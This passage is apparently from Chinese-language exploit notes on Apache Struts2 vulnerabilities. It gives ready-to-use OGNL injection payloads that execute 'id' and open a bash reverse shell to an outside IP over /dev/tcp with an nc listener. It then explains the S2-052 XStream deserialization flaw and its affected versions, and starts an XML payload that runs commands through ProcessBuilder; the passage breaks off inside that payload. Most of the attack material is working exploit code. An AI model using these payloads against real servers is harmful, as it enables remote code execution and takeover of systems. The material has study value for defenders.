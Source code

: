 * POC

    gangster name处

    `%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}`

* 反弹shell

    `%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i >& /dev/tcp/192.168.197.132/8888 0>&1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} b`

    nc -vlp 8888

## S2-052

* 原理

    Struts2 S2-052远程代码执行漏洞和以往的Struts2漏洞是不同的，S2-052利用的是Java反序列化，而不是ognl。本次漏洞触发点是REST插件在解析请求中的xml文件，调用了XStreamandler，传入的数据会被默认进行反序列化，如果当传入的xml是个经过XStream序列化的恶意对象时，便造成反序列化漏洞。

* 版本

    Apache Struts 2.5-Apache Struts 2.5.12

* POC

    由于rest-plugin会根据URI扩展名或Content-Type来判断解析方法，所以我们只需要修改orders.xhtml为orders.xml或修改Content-Type标头为application/xml在主体中传递XML数据。

    ```xml

    <map>
    <entry>
    <jdk.nashorn.internal.objects.NativeString>
    <flags>0</flags>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
    <dataHandler>
    <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
    <is class="javax.crypto.CipherInputStream">
    <cipher class="javax.crypto.NullCipher">
    <initialized>false</initialized>
    <opmode>0</opmode>
    <serviceIterator class="javax.imageio.spi.FilterIterator">
    <iter class="javax.imageio.spi.FilterIterator">
    <iter class="java.util.Collections$EmptyIterator"/>
    <next class="java.lang.ProcessBuilder">
    <command>
    <string>/usr/bin/touch</string>
    <string>/tmp/shell.txt</string>
    </command>
    <redirectErrorStream>false</redirectErrorStream>
    </next>
    </iter>
    <filter class="javax.imageio.ImageIO$ContainsFilter">
    <method>
    <class>java.lang.ProcessBuilder</class>
    <name>start</name>
    <parameter-types/>